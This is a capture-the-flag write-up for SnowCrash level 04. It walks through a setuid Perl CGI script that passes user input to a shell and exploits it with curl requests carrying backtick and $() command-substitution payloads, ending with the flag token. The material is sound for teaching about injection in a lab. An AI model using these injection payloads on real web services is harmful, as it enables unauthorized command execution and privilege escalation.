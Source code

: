 # LEVEL 04

In our home directory, we have a perl script with suid/guid owned by flag04 (the first s is for SETUID, and the second s is for SETGID):
```
>$ ls -la
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```
let's read the file's content:
```
>$ cat level04.pl
#!/usr/bin/perl // Indicates the path of the interpreter, like for bash (#!/bin/bash).
# localhost:4747 // This program is executed from a web server hosted on local machine and reachable via the port 4747.

use CGI qw{param}; // CGI (Common Gateway Interface) is a protocol for executing scripts via web requests.
print "Content-type: text/html\n\n"; // Print the string when it's execute.
sub x { // Define function 'x'.
  $y = $_[0]; // Save the param of x function to the variable y.
  print `echo $y 2>&1`; // Perl runs code between backticks/quotes as shell commands ('2>&1' is for error handling).
}
x(param("x")); // First x is the function declared above, second x is the key pass to param function.
```
We therefore know that we should pass one word as x.
If that word is a string like "hi", it should be output when running the program:
```
>$ ./level04.pl x="hamza elamri"
Content-type: text/html

hamza elamri
```
And we can pass a command and ensure it's run and its output captured and echoed using backticks/quotes "``":
```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
Content-type: text/html

level04
```
since the suid bit should make the script run as flag04.
This is because, as of perl 5.14.0, suid/guid bits on scripts are ignored by perl due to security reasons:
```
>$ perl --version
This is perl 5, version 14, subversion 2 (v5.14.2) built for i686-linux-gnu-thread-multi-64int
```
but if we run it on port 4747 as instructed:
```
>$ curl '127.0.0.1:4747/level04.pl?x=`whoami`'
flag04
```
```
So if we replace `whoami` with `getflag`:
>$ curl '127.0.0.1:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
We can also tape on a navigator:  `http://{VM_IP}:4747/?x=$(getflag)`  
**$(getflag)** or **\`getflag`** bot works


#### Vulnerability:
Command substitution on argument provided by privileged user -> Privilege escalation via **CGI** (**C**ommon **G**ateway **I**nterface) code injection.
as the [HOLY WIKIPEDIA](https://en.wikipedia.org/wiki/Common_Gateway_Interface) says : `In computing, Common Gateway Interface (CGI) is an interface specification that enables web servers to execute an external program, typically to process user requests.`

#### Documentations:
1. https://www.geeksforgeeks.org/setuid-setgid-and-sticky-bits-in-linux-file-permissions/
1. https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Command-Substitution
1. https://mattmccutchen.net/suidperl.html
1. http://www.ouah.org/hackingcgi.htm
1. http://www.cgi101.com/book/ch1/text.html
1. https://curl.haxx.se/docs/manual.html